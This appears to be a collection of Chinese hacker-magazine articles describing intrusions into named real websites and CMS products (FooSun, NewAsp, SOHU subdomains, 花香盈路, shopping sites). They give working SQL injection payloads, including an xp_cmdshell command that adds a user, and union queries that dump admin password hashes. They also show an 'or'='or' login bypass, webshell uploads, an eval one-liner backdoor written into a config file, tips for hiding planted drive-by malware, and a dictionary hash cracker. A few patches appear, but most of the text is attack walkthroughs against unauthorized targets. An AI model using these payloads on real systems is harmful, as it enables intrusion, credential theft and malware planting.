提示禁止列目录，看来目录的确是存在的。再输入 `FooSun_Data.mdb`，提示开始下载文件。下载后用 Access 打开，查看 `FS_Admin` 表，一看就知道需要做什么了，如图1所示。


共四个管理员，猜测 ID=1 为超级管理员；复制 MD5 密码到 MD5Crack 很快解出。其余账号权限较低。随后进入目录管理尝试上传 ASP 木马，系统提示不允许上传；即使在系统参数中添加 ASP 类型，仍失败，如图2所示。


看起来是在源码层面对可编辑文件做了限制。选择文件右键查看（图3），发现 HTML/ASP 类型也只能删除不能编辑，导致无法直接上传 ASP 木马。


想到风讯 CMS 有在线模板编辑功能，进入“站点管理→模板管理”，可见可视编辑入口，如图4。既然可以编辑文件，就可以尝试写入木马。


右侧尝试新建 `mm.asp` 后看似消失；再建 `new.htm` 写入 ASP 内容，再通过“重命名”改为 `new.asp`。界面中不显示，但到目录管理中实际文件存在，如图5。


由此可知风讯 CMS 模板管理只识别 HTML 显示，但 ASP 文件可通过“新建 HTML→写入→重命名 ASP”方式绕过。访问 `http://域名/Templets/new.asp` 可执行木马。最后作者提到服务器权限配置不严，Administrator 权限存在风险。

结语：本文技术难度不高，但由于风讯 CMS 使用广泛、默认配置与弱口令问题常见，拿到模板管理权限后进一步获取 WebShell 并不困难。

## 从风讯 CMS 开始的入侵


## VIP会员学习成果展

### 另类获取网络电视直播地址

适合读者：入侵爱好者、免费爱好者

前置知识：无

◎ 文／图 [黑防VIP]roger


最近在网上找到了一个不错的网络电视直播网站，有很多港澳台的电视直播，而且速度还不错。就有了个想法，希望能把一些频道搬到自己的 Blog 上去，不过由于网页的限制，是不可以直接找到直播地址的。如果一个一个用嗅探的方法或者用 WinHex 到内存里找的话会很麻烦，不适合批量查找。如图1所示。


图1

网址是 `http://bbs.mt30.com/mt_tv.asp`，由于这是个 ASP 页面，所以直接到源文件里找链接地址是不可能的。查看源文件，发现了这样一些代码：`<option value=mttv/tvlist1.asp?id=61>港澳台电视台</option>`，打开 `http://bbs.mt30.com/mttv/tvlist1.asp?id=61`，如图2所示。


图2

推测链接地址都是通过数据库查询输出的，我们只要 down 下数据库就可以得到所有链接地址。根据经验，提交一下 conn.asp 看看存不存在。输入 `http://bbs.mt30.com/mttv/conn.asp`，返回 HTTP 500 错误，也就说明文件是存在的，如图3所示。


图3

马上修改一下 IE 高级选项，取消“显示友好 HTTP 错误信息”，再次提交 `http://bbs.mt30.com/mttv/conn.asp`，如图4所示。


图4

终于暴出了数据库地址，把 `#mtsweathearttv.mdb` 的井号替换成 `%23`，得到完整地址 `http://bbs.mt30.com/mttv/mt_sweatheartdata/%23mtsweathearttv.mdb`，用 FlashGet 成功下载，打开数据库，如图5所示。


图5

把“vdizhi”表里的数据加上网址，很容易就得到了网络电视的链接地址。让我吃惊的是，数据库 Admin 表里还有管理员用户名和密码，这也算是意外的收获吧。

**WTF：**CMS 系统大大方便了各位网友的建站过程，我们制作一个庞大的内容管理系统不再是件难事。但是因为 CMS 的强大功能，如果出现了安全隐患，就会对整个站点造成难以估计的影响。下文将为我们揭开新云 CMS 的最新漏洞，大家可以通过此次分析，对照自己所使用的 CMS 系统检查、修补。

适合读者：网络爱好者、入侵爱好者

前置知识：木马使用基础

## 入侵新云网站

### ——最新新云系统漏洞解析

文／图 萍水相逢


前几日论坛出问题了，又没时间花在上面，就顺手就关了，到现在都还处于瘫痪状态。这两天稍微轻松些，打算把网站恢复过来。由于没买 SQL，只能用 Access 版本，但 Access 有个缺陷：在线人数多了非常影响网站的速度，所以我不得不下载一个能生成 HTML 的网站管理系统来使用。

在网上逛了一圈，发现新云网站管理系统还不错，后台功能非常强大，能生成 HTML 静态页面，速度也不错。于是马上 DOWN 一个下来，为了保证自己站点的安全，我对它代码进行了检查，发现此最新版本存在重大漏洞，下面我们就一起来分析一下。

### SQL版绕过单引号注入漏洞

我花了两个小时的时间查看此系统源码，整体来说这套系统还是很安全的，涉及数字型查询的几乎都经过了 IsNumeric() 或 CInt()、CLng() 函数过滤；涉及字符型的也由函数 CheckStr()、IsValidStr() 过滤。因 IsNumeric()、CInt()、CLng() 返回的都是数字，也就不存在注入。查询 CheckStr() 来到 inc/cls.main.asp 中，从143行开始代码如下：

```vb
Public Function CheckStr(ByVal str)
    If IsNull(str) Then
        CheckStr = ""
        Exit Function
    End If
    str = Replace(str, Chr(0), "")   ' 过滤0，16进制中为0x00
    CheckStr = Replace(str, "'", "") ' 过滤单引号(')
End Function
```

从上面我们可以看出，CheckStr() 过滤了单引号和16进制中的0x00，所以用了此函数过滤的变量都不存在注入漏洞。再次查找，我们来到 user/changeinfo.asp 文件，相关代码如下：

```vb
Sub ChangeUserInfo()
    On Error Resume Next
    Dim username,password,userid
    username = Replace(Request("username"),"'","")
    ' // 过滤了单引号
    userid = CLng(Request("userid"))
```

上面代码只对 username 过滤了单引号，如果对方是 Access 版本，则很难注入。但是 SQL 版本呢，我们可以通过如下方法绕过：

```sql
declare @a sysname
select @a=<command>
exec master.dbo.xp_cmdshell @a
```

上面语句的意思是先声明一个变量 a，然后把我们的指令赋值给 a，再调用变量 a 最终执行我们输入的命令。如果我们的指令含有“'”（单引号），则将之转化为16进制的形式，如命令 `net user ttfct ttfct /add` 转为16进制后代码为：`0x6E65742075736572207474666374207474666374202F616464`，那么我们的注入语句就变为了：`declare%20@a%20sysname%20select%20@a=0x...%20exec%20master.dbo.xp_cmdshell%20@a`，这样就达到绕过单引号的目的了。但是这种漏洞不好利用，因为它对权限要求比较高。

### 修改用户资料漏洞

此漏洞同样存在于 user/changeinfo.asp 中，相关代码如下：

```vb
Sub ChangeUserInfo()
    On Error Resume Next
    Dim username, password, userid
    username = Replace(Request("username"),"'","")
    userid = CLng(Request("userid"))
    If Founderr = True Then Exit Sub
    Set Rs = Server.CreateObject("ADODB.RecordSet")
    SQL = "select * from [NC_user] where username='" & username & "' and userid='" & userid
    Rs.Open SQL, Conn, 1, 3
    If Rs.eof And Rs.BOF Then
        ErrMsg = ErrMsg + "<li>Sorry! 没有找到此用户信息!</li>"
        Founderr = True
        Exit Sub
    Else
      ' 若存在则进行数据库更新操作
      Rs("nickname") = Trim(Request.Form("nickname"))
      Rs("TrueName") = Trim(Request.Form("TrueName"))
      Rs("usermail") = Trim(Request.Form("usermail"))
      If Trim(Request.Form("HomePage")) <> "" Then Rs("HomePage") = Trim(Request.Form("HomePage"))
      Rs("usersex") = Trim(Request.Form("usersex"))
      Rs("question") = Trim(Request.Form("question"))
      If Trim(Request.Form("answer")) <> "" Then Rs("answer") = md5(Trim(Request.Form("answer")))
      Rs("phone") = Trim(Request.Form("phone"))
      Rs("oicq") = Trim(Request.Form("oicq"))
      Rs("postcode") = Trim(Request.Form("postcode"))
      Rs("UserIDCard") = Trim(Request.Form("UserIDCard"))
      Rs("address") = Trim(Request.Form("address"))
      If Trim(Request.Form("BuyCode")) <> "" Then Rs("BuyCode") = md5(Trim(Request.Form("BuyCode")))
      Rs.Update
    End If
    Rs.Close
    Set Rs = Nothing
    Call Returnsuc("<li>恭喜您! 用户资料修改成功。</li>")
End Sub
```

相逢，得到如图2所示信息。注意后面的 USERID=3，如此一来，我们就得到了萍水相逢的 USERID 值。现在我们就可以进行漏洞的利用了。


此漏洞的利用需要我们注册一个用户名，并且登录之后，才可能进行更改。假如我们要更改“TTFCT”的信息，我们先注册一个用户（用户名123，密码123），然后登录用户控制面板，如图3所示。然后我们选择修改资料，如图4所示。


从第一部分代码我们可知，username 从表单接收并过滤单引号，USERID 过滤后只剩数字。第二段代码先查询 NC_user 表，若无对应用户名和 USERID 则返回“没有找到此用户信息！”，否则将“用户昵称、真实姓名、用户邮箱、密码提示问题、密码问题答案”等更新到表 NC_user 中。由此可知，只要知道任一用户的用户名和对应 USERID，就可以修改其密码提示问题与答案。文中进一步说明可通过“忘记密码”功能利用该逻辑，并通过首页用户排行和属性信息定位 USERID。

在这里我们发现用户名不可输入，用户 ID 也未显示。结合前文分析，username 与 USERID 确实提交到数据库查询，但在界面被屏蔽输入，因此可通过修改源代码方式实现输入。没修改前，其 HTML 代码如下：

```html
<script language='JavaScript'>locationid.innerHTML = '修改会员资料';</script>
<table cellspacing=1 align=center cellpadding=2 bgcolor=#cccccc border=0 class=Usertableborder>
  <tr><th colspan=2>修改个人资料</th></tr>
  <form method='post' name='myform' action='?action=save'>
```

```html
<tr>
  <td align="right" width="25%" class="Usertablerow1" height="20">用户名：</td>
  <td width="75%" class="Usertablerow1"><strong class="userfont1">123</strong>
    <input type="hidden" name="username" value="123">
    <input type="hidden" name="userid" value="2"></td>
</tr>
```

请大家注意以上的代码，由于原 HTML 代码将 username 和 USERID 的 input type 设置成 hidden，所以我们看不到输入框了。这里只要稍微做一下修改就行了，把 input type 设置为 text，修改后的代码如下：

```html
<script language="JavaScript">locationid.innerHTML='修改会员资料';</script>
<table cellspacing="1" align="center" cellpadding="2" bgcolor="#cccccc" border="0" class="Usertableborder">
<tr><th colspan="2">修改个人资料</th></tr>
<form method="post" name="myform" action="...?action=save">
<tr>
  <td align="right" width="25%" class="Usertablerow1" height="20">用户名：</td>
  <td width="75%" class="Usertablerow1">
    <input type="text" name="username" size="100" value="789">
    <input type="text" name="userid" value="2"></td>
</tr>
```

修改后，显示效果如图 5 所示。


图 5

在修改前，我们先看看 ttfct 的信息，如图 6 所示。


图 6

大致总结一下此漏洞利用过程：

- 1. 注册用户，用户名和密码都为 123，登录后台。
- 2. 修改提交的页面为 `<form method="post" name="myform" action="http://127.0.0.1/user/changeinfo.asp?action=save">`，点击我们修改后的 HTML 网页，按图 5 所示填好要修改的信息，注意用户名和其 USERID 号。我们已经知道 ttfct 的 USERID 号为 1。
- 3. 点击确认，得到成功提示。如图 7 所示。


图 7

现在我们再次查看 ttfct 的资料，发现已经被修改了，如图 8 所示。


图 8

密码提示问题、密码问题答案和邮箱地址都被我们修改了，还怕改不了它密码么？直接进入 user/sendpass.asp 页面找回密码吧。

在找回密码的第三步，程序有个 BUG，显示“参数类型不正确，或不在可以接受的范围之内，或与其他参数冲突”，这是程序作者编写的问题。如果此页面能正常使用，那么修改密码是毫无疑问的。

### SQL注入漏洞

此漏洞存在于 ACCESS 和 SQL 版中，漏洞页面为 user/articlelist.asp，相关代码如下：

```vb
Sub ArticleView()
  If Request("ArticleID")="" Then
    FoundErr=True
    ErrMsg=ErrMsg+"<li>Sorry! 您选择了错误的系统参数。</li>"
    Exit Sub
  End If
  If ChannelID<=0 Then
    FoundErr=True
    ErrMsg=ErrMsg+"<li>请选择栏目。</li>"
    Exit Sub
  End If
  SQL="select ArticleID,title,content,ColorMode,FontMode,Author,ComeFrom,WriteTime,username from NC_Article where ChannelID=" & ChannelID & " And username='" & Newasp.MemberName & "' And ArticleID=" & Request("ArticleID")
  Set Rs=Newasp.Execute(SQL)
  If Rs.bof And Rs.Eof Then
    FoundErr=True
    ErrMsg=ErrMsg+"<li>Sorry! 没有找到任何文章或参数错误。</li>"
    Exit Sub
  End If
End Sub
```

以上代码告诉我们，程序对 ArticleID 没有作任何过滤就进行 Select 查询，如此一来，明显就构成了 SQL 注入。

- 1. 进入普通用户控制版面，点击左边的发布文章，相关内容随便填，发布一篇文章。
- 2. 点击左边的文章管理，查看你刚才发布的文章，得到注入 URL `articlelist.asp?action=view&channelid=xxx&ArticleID=xxx`。在后面提交 `and 1=1` 页面正常，再提交 `and 1=2` 出错，说明分析正确。

下面分别以渗透云南黑客联盟和新云官方网站进行说明，因为这两个站点较具有代表性，一个是 ACCESS 版，一个是 SQL 版。

### 漏洞测试网站一：云南黑客联盟

打开云南黑客联盟的网站，网址 `http://www.ynhack.cn/`，如图 9 所示。


很明显，此网站使用的是新云网站管理系统。我已注册了一个用户 123，发表一篇文章，然后进行查看，得到如下 URL：`articlelist.asp?action=view&channelid=1&ArticleID=1458`。

```text
ArticleID=1458 and (select count(*) from nc_admin)<5
ArticleID=1458 and (select count(*) from nc_admin)=3
ArticleID=1458 and (select len(username)<7 from nc_admin where id=1)
ArticleID=1458 and (select len(username)=5 from nc_admin where id=1)
ArticleID=1458 and (select id from nc_admin where left(username,1)='a' and id=1)
ArticleID=1458 and (select id from nc_admin where left(username,2)='ad' and id=1)
```

经过多次测试之后，猜到用户名为 admin。由于系统源码可见，知道其密码是 16 位，可继续通过注入语句猜解。

```text
ArticleID=1458 and (select id from nc_admin where left(password,1)='7' and id=1)
...
left(password,5)='ttfct'
```

经过手工猜解得到第一个用户：admin，密码为 `7a57a5a743894a0e`。到网站查询后发现密码为 admin；登录后台后发现用户被锁定，如图 10 所示。


于是重新研究漏洞。注意查询代码：

```sql
select ArticleID,title,content,ColorMode,FontMode,Author,ComeFrom,WriteTime,username
from NC_Article where ChannelID=" & ChannelID & " And username='" & Newasp.MemberName & "' And ArticleID=" & Request("ArticleID")
```


上面的 SQL 查询有 9 个字段，可以用 union 跨表查询：`ArticleID=1458 union select 1,2,3,4,5,6,7,8,9 from nc_admin where id=1`，结果如图 12。


```text
ArticleID=1458 union select 1,2,password,4,5,username,7,8,9 from nc_admin where id=1
ArticleID=1458 union select 1,2,password,4,5,username,7,8,9 from nc_admin where id=2
ArticleID=1458 union select 1,2,password,4,5,username,7,8,9 from nc_admin where id=3
```

这样即可得到管理员用户名和 MD5 密码，并进一步获取其余管理员信息（文中后续提到图 13）。


用户名和 MD5 密码。如果管理员密码简单的话，一会就跑出来了。进入后台后，通过数据库备份，就能轻易拿到 WebShell。

### 漏洞测试网站三：新云官方网站

这个版本是官方发布的正式版，想必新云官方网站也存在这样的漏洞，于是马上转到官方网站 `http://www.newasp.net` 注册一个用户名，不过运气不太好，官方停止注册了。如图 14 所示。


不能注册了，没机会查看官方网站是否存在同样的漏洞了？没关系，可别忘了社会工程学，我猜总可以吧。输入 admin,admin，登录失败；再输入 123,123 登录依然失败；第三次输入 123456,123456 居然成功登录了，如图 15 所示。


用同样的方法发表文章，然后查看，在提交“'”时，出现“处理 URL 时服务器出错。请与系统管理员联系。”看来官方确实安全了一点。提交 and 1=1 和 and 1=2，分别显示正常和错误，说明官方同样存在这样的注入漏洞。于是提交“--”，我们知道在 SQL 中“--”为注释符，如果官方采用 ACCESS 数据库，是会报错的，在后面加上“-- ”后，页面显示正常，说明了官方使用了 MSSQL 的数据库。

由于屏蔽了错误，用手工注入比较麻烦，刚才注入云南黑客联盟都很累了。这里我就直接用辅助工具实现。因登录后才能查看自己发表的文章，所以使用辅助工具注入，我们得先从辅助工具中登录用户控制面板。

这样才能注射成功。图 16 是利用工具注入官方网站效果。


其实，要使自己成为一个官方网站的管理员非常容易，我们只要提交：`ArticleID=xxx;insert into nc_admin (username,password,status,admingrade) values('zxzgcn','c4d86fd5364d7e45','高级管理员','999')`，只用了这一步工作，我们就提升为了管理员。

### 漏洞修补方案

- 1) 对于绕过单引号继续注入漏洞，我们只要将 `@` 过滤掉就可以了，修补后代码如下：
- 2) 对于修改任一用户资料漏洞，只要加个禁止对外部提交的代码就可以修补，修补代码如下：
- 3) 对于 `articlelist.asp` 的注入漏洞，我们可以用 `cint` 函数处理，修补后的代码如下：

```vb
username = Replace(Replace(Request("username"),"'",""),"@","")
```

```vb
<%
server_v1 = Cstr(Request.ServerVariables("HTTP_REFERER"))
server_v2 = Cstr(Request.ServerVariables("SERVER_NAME"))
if mid(server_v1,8,len(server_v2))<>server_v2 then
%>
警告！你正在从外部提交数据！！请立即终止！！
<%
Response.Redirect "index.asp"
end if
%>
```

```vb
SQL = "select ArticleID,title,content,ColorMode,FontMode,Author,ComeFrom,WriteTime,username from NC_Article where ChannelID=" & ChannelID & " And username='" & Newasp.MemberName & "' And ArticleID=" & cint(Request("ArticleID"))
```

### 总结

新云网站管理系统非常好，功能也极其强大，但因开发者一点小小的疏忽，却造成了如此大的漏洞，若成功利用此漏洞，就可以得到 WebShell。现在还在使用这套系统的朋友请尽快修补此漏洞。

**脚本小子：** 对于门户网站，大家普遍有一种畏惧心理，一般不会主动去做入侵测试。其实门户网站虽然多采取一些硬件设备来保护其安全，但是漏洞和注入攻击总是防不胜防，只要花一点时间，认真地去分析，还是可以发现门户类站点的安全隐患的。

- 适合读者：网络爱好者、入侵爱好者、脚本爱好者
- 前置知识：无


## 对 SOHU 的再次安全测试

文/图 曾云好

SOHU（搜狐）是中国一个比较大的服务齐全的门户网站，前几个月风闻出了漏洞，不知道现在是否更安全了，因此我决定对其进行一次安全测试。对于这样的网站，服务器肯定用了硬件防火墙及其他安全设备，这样就算发现服务器存在漏洞也会被硬件防火墙屏蔽和拦截，成功率非常小。所以，从搜狐网站本身来分析脚本是一个非常好的选择。

### 漏洞查找

目前 SOHU.com 采用的脚本语言主要以 HTML、ASP 及 PHP 为主，以 JSP 为辅。主站几乎全部是静态的 HTML 文件，所以只能从分站着手。对于这样的大站要快速找出脚本方面的漏洞，最好的方法就是利用 Google 对 URL 进行整理，然后从中筛选存在漏洞的 URL 地址。对于 ASP 脚本可以输入“inurl:asp site:SOHU.com”来查询；对于 PHP 脚本可以输入“inurl:php site:SOHU.com”来查询；对于 JSP 脚本可以输入“inurl:jsp site:SOHU.com”来查询。

虽然搜索出来的无用页面比较多，但是存在漏洞的页面也不少。当然我们的精确度还可以小一点，比如“inurl:php?id= site:SOHU.com”，不过这样成功率很低。下面就是我发现的漏洞所在地址。存在 ASP 注入漏洞的是“http://jilin.SOHU.com/travel/list.asp?unid=2138105364”，存在 PHP 注入的地方也较多；另外在查找后台的时候还发现登录验证不严格的漏洞。

### 注入攻击

SOHU 存在注入漏洞的地方比较多，由于很多朋友已经写出了非常经典的注入文章，所以在此只做简单解释。

#### 1. ASP注入

存在 ASP 注入的地方是吉林搜狐，随便打开一个连接地址“http://jilin.SOHU.com/travel/list.asp?unid=2138105364”，在后面加入单引号就可发现它是 SQL 数据库。


再判断当前数据库的用户名，加入代码 and user>0 后发现用户名是 www_jilinSOHU_com，如图 2 所示。


使用 having 1=1 查询当前用户的数据信息，如图 3 所示，得到一个名为 channel_article_info 的表，列名 title。


继续猜解列名，输入 group by channel_article_info title having 1=1，得到一个 content 的列，如图 4 所示。


猜解列名就是按照类似的方法依次进行，接着输入代码“and (select top 列名 from 表名 where 列名=[N])>1”得到数据库中的内容。在得到数据库中的内容后就是登录后台了。

#### 2. PHP注入

PHP 注入用“http://photo.club.SOHU.com/dragon/admin/commend_list.php?start=50&classid=88”来举例。先输入 `and ord(mid(version(),1,1))>51/*` 查看数据库版本，这里返回正常，如图 6 所示，说明版本大于 4.0，因为是大于 4.0 才支持 Union 查询。


这里有 8 个字段，提交 `http://photo.club.SOHU.com/dragon/admin/commend_list.php?start=50&classid=88%20and%201=2%20union%20select%201,2,3,4,5,6,7,8/*`，返回结果如图 7 所示。


将 4 改为 user()，将 5 改为 version()，得到了当前的用户名及版本，如图 8 所示。


从返回的用户名（club@192.168.131.130）可以猜测出服务器的防火墙配置，WEB 服务器应该是置于防火墙后的内网中。接下来在字段后面加上“from 表名”猜出表名，之后从页面上得到用户名和密码的位置，爆出用户名及密码。并补充说明了相关 PHP 注入思路。

### 后台验证不严格

在踩点时发现某分站后台存在经典漏洞 `'or'='or'`，如图 9、图 10 所示。该后台用于发布旅游线路，程序员对输入数据未充分过滤就执行数据库操作，从而导致可用于挂马。

对于图中的挂马方式，只要把高度和宽度都改为零即可。不过这种方式隐蔽性较差，如果服务器输入框限制了长度，就没有作用了。


> ### 挂马技巧
> 如果限制了长度可以用 JS 突破；为避免代码被杀软查杀，可对 JS 进行 Encode 加密。若用 URL 地址挂马，可将地址转换为编码；若是 IP 类访问，也可进行进制转换（如十进制转八进制）以增强隐蔽性。

### 目录浏览

此漏洞是在查后台时发现的。把登录文件去掉后，发现服务器目录配置不当，允许浏览目录，如图 12 所示。该网站为广告服务目录，从图 12 中可看到备份文件（如 manage_php.tar.gz）等敏感文件。


接下来，这个文件就是搜狐广告服务的后台管理源代码，并且目录浏览缺陷导致源代码泄露。

在这里隐藏了一些安全隐患：

- 在广告发布的地方没有对输入的数据进行过滤。
- 发布广告后的参数没有过滤，代码如下：

```php
// 检测广告
$ad = new AD;
$ad->ad_id = $ad_id;
...
if($ad->ad_num_key>0){
  // modified by zxj 2005/6/20
  // 得到关键词的总数
  $query = "select count(*) TOTALROW ";
  $query .= "from [key] ";
  $query .= "where i_ad_id=$ad->ad_id ";
  $res = mssql_query($query,$connection);
  if ($row = mssql_fetch_array($res)) {
    $totalRow = $row["TOTALROW"];
  }
  if($totalRow>KEY_SHOW_NUM) $show_all_key = true;
  $query = "select top ".KEY_SHOW_NUM." * ";
  $query .= "from [key] ";
  $query .= "where i_ad_id=$ad->ad_id "; // 直接赋值，没有过滤就进行数据库操作
  $query .= "order by i_id";
}
```


一个参数没有进行任何过滤就对数据库进行查询操作，导致漏洞的出现。如图13、图14所示。

### 总结

以上是对 SOHU 的一次简单安全检测。由此可见，门户网站同样存在许多安全隐患。由于关于注入漏洞的攻击文章较多，因此本文并不对此进行重点讲解。对于如此大站，发现漏洞往往比攻击注入漏洞更难。

所以这里想给大家一种入侵意识：怎样创造新的方法来发现漏洞。脚本漏洞从本质上来说就是过滤不严格，但却有非常多的表现形式，因此我们需要利用原有的脚本漏洞挖掘出新的表现形式，毕竟黑客是需要有创造性的。

如上，发布广告以后会得到一个 ad_id 的参数，但这……

**脚本小子：** 花香盈路是一套使用比较广泛的整站系统，不过此系统代码较繁复，很多朋友因为它较为庞大的代码量而放弃对它的研究。还好总有不怕麻烦的人，今天我们就来一起看一下本文作者对其的详细分析。

- 适合读者：网络爱好者、入侵爱好者、脚本爱好者
- 前置知识：无

## 花香盈路整站漏洞再现


> 文／图 Morephaze[DSG]

最近拿到一套花香盈路系统，最新版本 Ver6.6，我准备研究研究，看看有什么漏洞。

### 投石问路

以前此系统有一个漏洞，主要是由于消息框对脚本代码过滤不严而造成的，而那种方法较为被动，只有管理员阅读信息的时候才能拿到 COOKIE 里的密码信息。这里我先介绍一种主动拿密码信息的方法。

先注册一个账号登录上去，进入短信箱，先给自己发一条站内短信，如图1所示。

我们来阅读这条短信，留意到地址栏的 URL 了吗？“http://localhost/hxcms/messager.asp?action=read&id=2”。我们来提交经典的 SQL 注入测试等式 and 1=1 和 and 1=2，看看返回信息，很遗憾，没有注入成功。

不过先别泄气，我们看到短信控制面板上还有个删除短信的图标，我们右键点击此图标，在下拉菜单中选择“复制快捷方式”，然后重新打开一个浏览器窗口，把复制的地址“http://localhost/hxcms/messager.asp?action=delete&id=2”贴上去。这时先别急着按回车，还得在 URL 后面加上我们的 SQL 注入测试表达式 and 1=1。这时返回短信箱看看原来那条信息还在不在？如图2所示。


很明显，短信息已经成功删除了。到这里好像有点希望。依照同样的步骤进行操作，这次输入的是 and 1=2，回车后再看看短信箱，发现短消息居然还在。由此可以确定短信箱又存在 SQL 注入漏洞了，尽管利用起来没那么舒服，不过我们不用跨站就可以拿 COOKIE 了。

### 开始入侵

投石问到路就开始行动，SQL 注入技术出来都好多年了，手工注入相信大家都会，我这里就不再啰嗦了。不懂的话就先看看以前的杂志，因为这并非本文的重点。回到注入点，通过注入我们便能拿到管理员的密码了。

本以为事情就这样结束了，谁知等我把密码长度猜出来的时候不禁捏了一把汗，居然是 40 位的散列！相信大家也听过 16 位、32 位的 MD5 加密吧，但是 40 位的我倒是闻所未闻，至于他采用的是什么加密算法我也无从得知。

> MD5 暴力破解：软件先利用通用的 MD5 算法来对一已知的字符串进行加密，然后用来与黑客所获得的 MD5 密文相对比；若相等，说明原始字符串就是要破解 MD5 的明文，然后输出结果；否则重新对下一个待枚举的字符串进行加密——对比——再加密，如此反复直到得到真正密码明文为止。

好了，我们现在的方向是自己编写一个暴力破解器（简陋版）。这时菜鸟就会问了：我不会编程如何是好？其实能看得懂这篇文章就差不多了，因为我们只需要用到 VBS 脚本来完成这项工作，所以能看懂一些 ASP 脚本就够了。

下面来说一下比较重要的部分，我们说到要加密就必须使用它自带的 MD5 文件才行。还好花香 NC 目录下的 MD5.asp 已经为我们提供了 MD5 函数，我们只要在 VBS 脚本的前面写入 MD5 的函数体就可以了。

```vb
On Error Resume Next
' 下面是引用函数体部分
' ……这里略去MD5函数的代码……
MsgBox "welcome to MD5craker v1.0 by [DSG]"
msgbox "请先将字典文件改名为pass.txt放置于C:\下"
Dim Input
Input = InputBox("输入要破解的MD5散列")
MsgBox "你输入的是:" & input
Dim fso,ts
Set fso=CreateObject("Scripting.FileSystemObject")
Set ts = fso.OpenTextFile("c:\pass.txt",1,true)
do while not ts.atEndOfStream
```

```vb
pass = ts.readline
if MD5(pass)=input then
  msgbox "恭喜！找到一个密码:" & pass
  exit do
end if
loop
if MD5(pass)=input then
  msgbox "谢谢使用[DSG]作品"
else
  msgbox "破解失败，请穷选字典再尝试！"
end if
```

把以上代码写进记事本然后保存为 *.vbs 文件，双击就可以使用。这里我们需要一个字典用来跑密码，相信大家都有一份常用的密码档，只要把密码字典文件改名为 pass.txt 放在 C 盘根目录下就可以了。

我们打开 MD5crack.vbs，出现如图3所示的界面。按照提示输入我们刚刚注入拿到的 MD5 散列就可以开始破解了。


当成功破解密码时脚本会给出提示，我们这里拿到的密码是 123123，如图4所示。


好，先进花香的后台看看。花香的后台功能十分强大，如图5所示。搞一个 WebShell 是非常简单的事，如图6所示，备份数据库即可。


后台有备份数据库功能，我们可以先上传一个图片后缀的 ASP 木马，然后重新备份成 ASP 后缀的文件。以前的杂志早已有过介绍；另外，我们再来看另一种拿 WebShell 的方法。

打开 admin_config.asp 文件我们可以看到如下代码：

```asp
sessionvar=replace(Trim(Request.Form("sessionvar")),CHR(34),"")
hex_in=replace(Trim(Request.Form("hex_in")),CHR(34),"")
bad_ip = replace(Trim(Request.Form("bad_ip")),CHR(...)
```

## 脚本攻防（SCRIPT ATTACK&DEFENCE）

```asp
webname=replace(Trim(Request.Form("webname")),CHR(34),"")
weburl=replace(Trim(Request.Form("weburl")),CHR(34),"")
...
point_is=replace(Trim(Request.Form("point_is")),CHR(34),"")
point_pic=replace(Trim(Request.Form("point_pic")),CHR(34),"")
point_vid=replace(Trim(Request.Form("point_vid")),CHR(34),"")
```

上面的过滤语句是针对双引号的，为何要针对双引号呢？再看它的配置文件 inc\config.asp。

```asp
'===== 网站基本信息 =====
sessionvar="xc"
webname="花香盈路"
weburl="http://www.hx66.net"
webmail="webinfo@hx66.net"

'===== 首页显示信息 =====
indexnews=6
indexarticle=10
indexsoft=10
```

由此我们可以看到程序作者把双引号过滤得滴水不漏，作用就是为了防止有人精心构造语句来闭合双引号的恶意代码。

过滤倒是没问题了，但请大家留意，上面的代码用的却是 indexnews=6 这种整型变量。我们知道这是不需要双引号闭合的，因此我们完全可以通过它的过滤。

回到后台管理，进入“网站设置”-“首页信息”那里，把新闻显示条数的框内填上如下代码：

```text
6;eval(request(chr(34)))
// 注：这里的34是双引号的ASCII码
```

保存设置就可以了，接着就用 Jake2 的 WebShell 客户端来连接 config.asp 文件，如图7所示。

| Name | VolumeName | Type | IsReady | FileSystem | AvailableSpace | TotalSize | SerialNumber |
|---|---|---|---|---|---|---|---|
| ... | ... | ... | ... | ... | ... | ... | ... |

图7

### 总结

最后要说的是，虽然该漏洞利用起来有点麻烦，但作为一名真正的安全爱好者应该有一定的耐性；手工注入更有利于技术进步。本文只介绍了一个注入漏洞案例，更多内容还需要继续挖掘。

- 适合读者：网络爱好者、入侵爱好者
- 前置知识：无

## 拿 WebShell 刺杀


文/图 一笑

最近在黑防上看了一篇《一句话木马的入侵》，我受了点启发，也想搞几个购物站点的 Shell 看看。于是搜索关键词“短信管理”“新闻管理”“支付方式”，开始了渗透之路。

或许是我搜索的关键词不对，出来的结果不多。不过还好找到了几个有漏洞的站点。打开 www.t-city.cn/admin/admin.asp，看到有东西闪了一下又返回登录页。

打开 WsockExpert 对该页面抓包，分析内容后找到了链接 `<a href="adv1.asp">网店标志上传</a>`。访问 /admin/adv1.asp 后发现可直接访问页面，但不能上传 ASP 文件，于是继续查找，直到发现 `src=".../image"` 的线索（如图1）。


```html
&nbsp;<a href='safe2.asp'>管理员资料修改</a>
<a href='safe5.asp'>数据库在线维护</a>
<a href='safe6.asp'>数据库在线改名</a>
```

和刚才一样，我们选择“`<a href='safe5.asp'>数据库在线维护</a>`”，URL 变为 `http://www.t-city.cn/admin/safe5.asp`，如图3所示。现在可以下载数据库了，但是 admin 的密码是 MD5 加密的，我们没有必要在这里浪费时间。点上传，打开了一个新的上传页面上传木马，如图4所示。连物理路径都出来了，`http://www.t-city.cn/admin/shopbackup.asp?i=come` 就是我的 WebShell 地址，如图5所示。

适合读者：入侵爱好者、网络管理员  
前置知识：无

## PK 国外大型娱乐网站——东魅网


今天 PK 的网站是中国最大的娱乐网站之一——东魅网，世界排名 1 万左右，已经有了许多分站，是一个大型的娱乐站点，我们的主要目的是来看一下其主站的安全性怎么样。

打开首页，大部分是静态的，但有一小块是 ASP 动态，那就试一下注入吧。随便找了一个娱乐新闻的链接 `efun.xxxxx.com/starImgs/default.asp?id=9255`，在后面加一个单引号，出现了错误提示，如图1所示。


从图中就能够判断出数据库是 MSSQL 的，拿到啊D里一检测，是 DB_OWNER 权限，而且还暴出了两百多个表。到这里，大家肯定会想到两条路：一个是找到管理员的表，暴出用户名和密码，登录到后台再想办法传 ASP 木马；还有一个就是差异备份。

那我们先试第一条路，顺利找到“admin”表，也没被 MD5 加密。那接下来找后台吧，在网址后面直接加个 Admin 却出现“您未被授权查看该页”，如图2所示。看来是作了限制，外部 IP 无法登录。到此第一条路失败。接着来看第二条路——差异备份，不过大家想想就明白，在这样一个大型的网站，分站很多，网站目录可想而知就会很多，要想找到真实的网站路径很困难，也很耗时。对我一个人来说工作量会很大，所以我们看看还有没有别的办法。


图2


图4

